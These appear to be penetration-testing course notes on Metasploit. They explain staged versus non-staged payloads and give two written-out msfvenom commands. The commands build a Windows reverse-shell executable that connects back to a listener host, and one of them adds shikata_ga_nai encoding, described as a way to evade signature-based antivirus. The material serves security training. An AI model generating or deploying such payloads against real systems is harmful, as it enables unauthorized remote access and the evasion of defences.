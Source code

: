 ## Metasploit Payloads
### Staged vs Non-Staged Payloads

- Before jumping into specific shellcode functionality, we must discuss the distinction between staged and non-staged shellcode, as evidenced by the description of these two payloads.
  ```bash
  windows/shell_reverse_tcp - Connect back to attacker and spawn a command shell
  windows/shell/reverse_tcp - Connect back to attacker, Spawn cmd shell (staged)
  ```

### Meterpreter Payloads
### Experimenting with Meterpreter
### Executable Payloads

- The Metasploit Framework payloads can also be exported into various file types and formats, such as ASP, VBScript, Jar, War, Windows DLL and EXE, and more.
- For example, let’s use the msfvenom715 utility to generate a raw Windows PE reverse shell executable. We’ll use the -p flag to set the payload, set LHOST and LPORT to assign the listening host and port, -f to set the output format (exe in this case), and -o to specify the output file name.
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.156 LPORT=443 -f exe -o shell_reverse.exe
  ```
  ![Picture](../22.%20The%20Metasploit%20Framework/Image/23.png)
- The shellcode embedded in the PE file can be encoded using any of the many MSF encoders. Historically, this helped evade antivirus, though this is no longer true with modern AV engines. The encoding is configured with -e to specify the encoder type and -i to set the desired number of encoding iterations. We can use multiple encoding iterations to further obfuscate the binary, which could effectively evade rudimentary signature detection.
  ```bash
  msfvenom -p windows/shell_reverse_tcp LHOST=192.168.50.156 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
  ```
